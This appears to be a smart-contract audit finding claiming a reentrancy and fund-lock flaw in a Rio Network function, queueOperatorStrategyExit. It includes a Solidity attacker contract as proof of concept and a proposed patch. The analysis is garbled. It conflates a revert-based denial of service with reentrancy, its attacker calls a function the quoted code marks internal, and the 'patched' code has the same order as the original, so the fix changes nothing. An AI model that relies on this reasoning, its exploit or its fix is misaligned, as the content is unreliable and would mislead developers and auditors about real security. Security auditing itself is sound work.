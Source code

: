 Basic Mango Alligator

high

# Potential Reentrancy Vulnerability in queueOperatorStrategyExit Causing Fund Lock

## Summary
The **queueOperatorStrategyExit** function in the contract is vulnerable to a denial of service (DoS) attack due to the potential of a malicious strategy contract causing the **delegator.queueWithdrawalForOperatorExit(strategy, sharesToExit)** call to revert. If the strategy contract is designed to revert on withdrawal, it can lead to the locking of funds with no recovery mechanism in place within the function. This function lacks safeguards against such malicious behavior, which poses a significant risk as it could result in the permanent or temporary loss of an operator's shares if a strategy behaves maliciously.
## Vulnerability Detail
The root cause of the potential reentrancy vulnerability in the **queueOperatorStrategyExit** function lies in the fact that the function interacts with an external contract (**IRioLRTOperatorDelegator**) and then emits an event before completing the function execution. This allows an attacker to potentially call back into the contract before the function completes, leading to a reentrancy attack.

Specifically, an attacker could potentially call the **queueWithdrawalForOperatorExit** function in the **IRioLRTOperatorDelegator** contract in such a way that it triggers another function call back into the **queueOperatorStrategyExit** function before it completes. This could result in unexpected behavior and fund lock if not handled properly.

**Proof of Concept (PoC) Code:**

1. Deploy a malicious contract with a fallback function that calls the **queueOperatorStrategyExit** function of the vulnerable contract repeatedly.

```solidity
pragma solidity ^0.8.0;

interface VulnerableContract {
    function queueOperatorStrategyExit(uint8 operatorId, address strategy) external;
}

contract MaliciousContract {
    VulnerableContract vulnerableContract;
    uint8 operatorId;
    address strategy;

    constructor(address _vulnerableContract, uint8 _operatorId, address _strategy) {
        vulnerableContract = VulnerableContract(_vulnerableContract);
        operatorId = _operatorId;
        strategy = _strategy;
    }

    fallback() external {
        vulnerableContract.queueOperatorStrategyExit(operatorId, strategy);
    }

    function startAttack() public {
        vulnerableContract.queueOperatorStrategyExit(operatorId, strategy);
    }
}
```

2. Deploy the vulnerable contract and the malicious contract, passing the vulnerable contract address, **operatorId**, and strategy to the malicious contract constructor.
3. Call the **startAttack** function of the malicious contract to trigger the reentrancy attack.

This attack exploits the vulnerability by repeatedly calling the **queueOperatorStrategyExit** function before the state is updated, causing the funds to be locked in the deposit pool.
## Impact
The maximum impact of this vulnerability is the loss of availability of the funds associated with the **operatorId** and **strategy** provided to the function, leading to financial loss and damage to the contract's integrity.
## Code Snippet
https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/utils/OperatorRegistryV1Admin.sol#L144-L165
## Tool used

Manual Review

## Recommendation
To fix this issue, the withdrawal process should be completed before emitting the event. This can be achieved by reordering the code so that the withdrawal is processed first, and then the event is emitted.

Here is the patched code example:

```solidity
144       function queueOperatorStrategyExit(IRioLRTOperatorRegistry.OperatorDetails storage operator, uint8 operatorId, address strategy) internal {
145           IRioLRTOperatorDelegator delegator = IRioLRTOperatorDelegator(operator.delegator);
146   
147           uint256 sharesToExit;
148           if (strategy == BEACON_CHAIN_STRATEGY) {
149               // Queues an exit for verified validators only. Unverified validators must by exited once verified,
150               // and ETH must be scraped into the deposit pool. Exits are rounded to the nearest Gwei. It is not
151               // possible to exit ETH with precision less than 1 Gwei. We do not populate `sharesToExit` if the
152               // Eigen Pod shares are not greater than 0.
153               int256 eigenPodShares = delegator.getEigenPodShares();
154               if (eigenPodShares > 0) {
155                   sharesToExit = uint256(eigenPodShares).reducePrecisionToGwei();
156               }
157           } else {
158               sharesToExit = operator.shareDetails[strategy].allocation;
159           }
160           if (sharesToExit == 0) revert IRioLRTOperatorRegistry.CANNOT_EXIT_ZERO_SHARES();
161   
162           // Queues a withdrawal to the deposit pool.
163           bytes32 withdrawalRoot = delegator.queueWithdrawalForOperatorExit(strategy, sharesToExit);
164           
165           // Emit event after completing the withdrawal process
166           emit IRioLRTOperatorRegistry.OperatorStrategyExitQueued(operatorId, strategy, sharesToExit, withdrawalRoot);
167       }
```
By completing the withdrawal process before emitting the event, the vulnerability is mitigated as the funds are safely withdrawn before any external contract can potentially call back into the function.